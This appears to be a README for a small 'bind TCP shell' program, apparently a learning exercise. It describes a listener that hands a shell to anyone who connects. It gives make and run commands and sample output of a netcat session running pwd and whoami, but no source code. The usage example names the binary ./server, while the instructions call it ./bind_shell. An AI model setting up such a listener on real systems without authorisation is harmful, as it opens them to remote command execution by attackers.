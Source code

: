 # Bind TCP Shell
The programm will listen on a command-line TCP port for inbound connections. <br>
When it receives a connection, it will make a execve syscall to get a shell on the remote machine and redirect to descriptors of the programm to our socket <br>

# How to execute
make <br>
./bind_shell -p 'tcp_port' -q 'queue_length' <br>
Where tcp_port is the number of the TCP port in which we want to receive connections, and queue_length is the queue_length of the incoming connections.

# Example on remote machine
./server -p 3000 -q 5 <br>
[*] Waiting for incoming connection on 0.0.0.0 at port 3000 <br>
Connection received from 192.168.15.18 in port 44508 managed by the process 22109 <br>

# Example on local machine 
nc -v 192.168.15.18 3000 <br>
Connection to 192.168.15.18 3000 port [tcp/*] succeeded! <br>
pwd<br>
/home/h4z4rd/bind_tcp_shell <br>
whoami<br>
h4z4rd<br>
